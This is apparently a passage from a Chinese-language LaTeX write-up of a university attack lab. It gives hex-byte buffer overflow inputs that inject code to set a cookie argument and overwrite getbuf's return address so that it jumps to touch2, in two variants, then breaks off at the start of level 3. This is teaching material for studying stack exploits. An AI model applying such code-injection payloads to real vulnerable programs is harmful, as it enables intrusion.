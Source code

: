 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
bf 80 ba 61 37
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00

78 e0 64 55 00 00 00 00
dd 18 40 00 00 00 00 00      
\end{lstlisting}

\subsubsection{解法2}
\label{subsubsection:exp_2_2}

此外，在注入的代码中，还可通过 \verb|pushq| 指令将 \verb|touch2| 的入口地址压入栈，然后返回，此时将直接返回到 \verb|touch2|。堆栈图如  所示。

\begin{figure}[H]
    \hspace*{85pt}
    \includegraphics[width=0.7\textwidth]{./fig/2_2.png}
    \caption{实验2解法2堆栈图}
    \label{figure:exp_2_2}
\end{figure}

最终结果为：

\begin{lstlisting}
bf 80 ba 61 37
68 dd 18 40 00
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00

78 e0 64 55 00 00 00 00
\end{lstlisting}

\subsection{实验3} 

实验3要求设计一个输入字符串，使 \verb|getbuf| 返回 \verb|touch3|，并将 cookie 的十六进制表示的字符串作为第一个参数传入 \verb|touch3|。

\subsubsection{解法1}
\end{document}
